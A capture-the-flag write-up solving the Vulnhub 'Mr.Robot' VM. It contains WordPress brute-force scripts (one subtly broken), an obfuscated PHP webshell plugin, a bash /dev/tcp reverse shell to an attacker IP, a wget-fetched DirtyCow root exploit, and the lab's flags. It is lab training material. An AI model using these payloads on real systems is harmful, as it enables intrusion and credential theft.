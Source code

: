 ```yaml
---
title: "Vulnhub - Mr.Robot Writeup"
date: 2019-06-05T13:02:53+08:00
description: ""
featuredImage: "https://alicdn.kmahyyg.xyz/asset_files/aether/cat_tech.webp"
categories: ["tech"]
draft: false
displayInMenu: false
displayInList: true
dropCap: false
---
```


# Download here

Target VM: https://download.vulnhub.com/mrrobot/mrRobot.ova

Difficulty: Beginner-Intermediate

After you download it, just import to your VMWare workstation and change the network interface type as you pleased. Network is configured via DHCP.

# Before Start

Prepare your Kali and ensure they are in the same subnet.

Open VMware workstation - Edit - Virtual network editor to get the ip range.

## Check VM IP

`nmap -sn -n 172.16.51.0/24`, found: 172.16.51.132

# GOGOGO

## Check footprint

> sudo nmap -sC -sC -oN mrbot -p1-65535 -O 172.16.51.132

Found 80,443. Nothing useful.

> sudo nikto -o ./mrrbt.txt -h 172.16.51.132 -p 80 

Found wordpress.

> gobuster -u http://172.16.51.132 -w /media/kmahyyg/linuxdata/WorkData/HostedOnGithub/hackbox_tools/utils/outsidetools/dictionaries/DirBuster-Lists/directory-list-2.3-medium.txt -x php,html,txt,html -o mrrbot.txt

Well, there's a lot of rabbit holes. But just check StatusCode == 200

> wpscan --url http://172.16.51.132 -o ./mrbot-wpscan.txt

Wordpress scanned.

## Flag 1: robots.txt

A key file is listed and a dictionary is offered. Download them all, you get the first key.

## Flag 2

### Wordpress bruteforce

You got a dictionary. Then next? Yes, try to bruteforce.

First, try `hydra`, however, it's really slow here. 

I just write a simple Python3 script to make it much more faster.

```python3
#!/usr/bin/env python3
import requests
wordlist = open("fsocity.dic").readlines()
set = set(wordlist) # REMOVE DUPLICATES
tot = len(set)
i = 0
for w in set:
    print("{current}/{total}".format(i, tot))
    r = requests.post("http://172.16.51.132/wp-login.php", data={'log': w, 'pwd': “dummy”})
    if "Invalid username" not in r.text:
        print("USERNAME:")
        print(w)
        exit(0)
    i += 1
```


Found username: elliot

Then, Let's bruteforce the password.

```python3
#!/usr/bin/env python3
import requests
wordlist = open("fsocity.dic").readlines()
set = set(wordlist) # REMOVE DUPLICATES
tot = len(set)
i = 0
for w in set:
    print("{current_time}/{total}".format(current_time=i, total=tot))
    r = requests.post("http://172.16.51.132/wp-login.php", data={"log": "elliot", "pwd": w})
    if "is incorrect" not in r.text:
        print("password:")
        print(w)
        exit(0)
    i += 1
```

Found password: ER28-0652

After you login, check all the place you can access.

Then, You found nothing. But you can upload one plugin you love.

### Get RCE

You just use AntSword to add this shell and run it.

Example: I saved the shell code into `neshell.php` and then pack it in zip file `shitwps.zip`, then upload but **NOT ACTIVATE** .

URL: http://172.16.51.132/wp-content/plugins/shitwps/neshell.php

```
<?php
    /*
    Plugin Name: AntSword Shell
    Plugin URI: https://github.com/leonjza/wordpress-shell
    Description: Inspired by leonjza, This shell plugin is generated by Antsword.
    Author: Patrick Young
    Version: 0.1
    Author URI: https://www.kmahyyg.xyz
    */?>
<?php $JWgG=create_function(str_rot13('$').str_rot13('f').chr(01501-01322).str_rot13('z').base64_decode('ZQ=='),chr(0x13b3b/0x31f).base64_decode('dg==').chr(0610-0447).chr(56700/525).base64_decode('KA==').chr(01501-01435).chr(0x39d-0x32a).chr(68598/618).chr(0162070/01030).str_rot13('r').str_rot13(')').chr(0354-0261));$JWgG(base64_decode('NjMxN'.'Dc1O0'.'BldkF'.'sKCRf'.''.chr(0xcc88/0x268).base64_decode('RQ==').chr(14877/261).base64_decode('VA==').str_rot13('I').''.''.str_rot13('S').chr(603-487).base64_decode('bw==').chr(0152522/01173).chr(0x16f-0x102).''.'pxbGp'.'Jbl0p'.'OzE4O'.'TQ0Mj'.'U7'.''));?>
```

Work as intended. After you get shell in User `daemon`.

Get user by `cat /etc/passwd`, then you found a User `robot`, and try next to read home `/home/robot`, you will only find a password md5 and login via SSH to get the second flag.

The credential is: `robot:c3fcd3d76192e4007dfb496cca67e13b`

It's a md5sum, just use [Hashkiller](https://hashkiller.co.uk/Cracker/MD5) to crack, you find this `abcdefghijklmnopqrstuvwxyz`.

However, you cannot login...... 

According to OSCP Rules, `metasploit` automated exploit is not allowed. So 

```bash
$ bash -c 'bash -i &>/dev/tcp/192.168.1.69/4433 0<&1'
```

Reverse shell got with `nc -lvp 4433` before you issue the command above.

Then use `whereis python3` to check if Python is working. Got `Python 3.4`.

Next, Spawn a tty to login.

```
$ python3 -c 'import pty; pty.spawn("/bin/bash");'
```

After you get a tty, then `su robot` and login.

Second flag get: `822c73956184f694993bede3eb39f959`

## Flag 3

### Privilege Escalation

After LinEnum, found nothing but kernel version is 3.13.0-55 with Ubuntu 14.04-LTS and you have `gcc-4.8`.

Well, so if you got `gcc` with such an old kernel version, you will love DirtyCow.

After some Google-fu,  Before **3.13.0-100.147** in Ubuntu 14.04 , all version are effected.

So, directly DirtyCow. The most conveninent one is exploitdb-ID-40616, you should get this source code via searchsploit:

```bash
$ searchsploit -m 40616
```

Next, Open a http server in Python3 `python3 -m http.server 8080` and just wget it in victim `wget http://192.168.1.56/40616.c` to a writable folder `/tmp` , and then compile it via GCC `gcc cowroot.c -o cowroot -pthread` and then run it `./cowroot` to get root shell, after you get root, run `echo 0 > /proc/sys/vm/dirty_writeback_centisecs` to make the shell more stable, then do anything you love, the third key is located at `/root/key-3-of-3.txt`.

Third Key, get: `04787ddef27c3dee1ee161b21670b4e4`.

# Clean UP

DIRECTLY FORCE POWER OFF AFTER YOU FINISHED DIRTYCOW!

(FINISHED)
